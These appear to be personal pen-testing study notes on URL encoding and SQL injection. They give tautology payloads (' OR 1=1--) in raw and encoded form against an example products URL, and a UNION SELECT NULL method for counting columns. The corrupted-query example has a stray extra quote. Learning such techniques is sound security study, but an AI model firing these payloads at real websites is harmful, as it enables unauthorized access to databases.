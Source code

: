 ```yaml
---
title: Pen Testing 3 SQL, Burp
tags: tech, cybersec
---
```


# Url search bar

Search bar will convert non-ascii characters to percents aka encoded UTF-8 encoded text  
`https://<url>?<query>

* <query>
  * white-space CAN be encoded to + OR percent hex representation
  * UTF-8 char encodes to percent hex representation 
<!--  -->
* Target: `https://insecure-website.com/products?category=Gifts`  
  * <query>: `?category=Gifts`
  * attack 1: `https://insecure-website.com/products?category=Gifts'+OR+1=1--`
  * attack 2: `https://insecure-website.com/products?category=Gifts%27%20OR%201%3D1%20--`

The `+` in attack 1 is translated into white space NOT the escaped `+` character.


```sql
-- Original 
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

--Corrupted
SELECT * FROM products WHERE category = 'Gifts'' OR 1=1--AND released = 1
```

`--AND released = 1` gets commented out.  
The resulting query is equivalent to `SELECT * FROM products`  


## Finding number of cols

* `' UNION SELECT NULL,NULL--`
  * keep adding NULL , until query goes through, the number of NULL is the number of columns
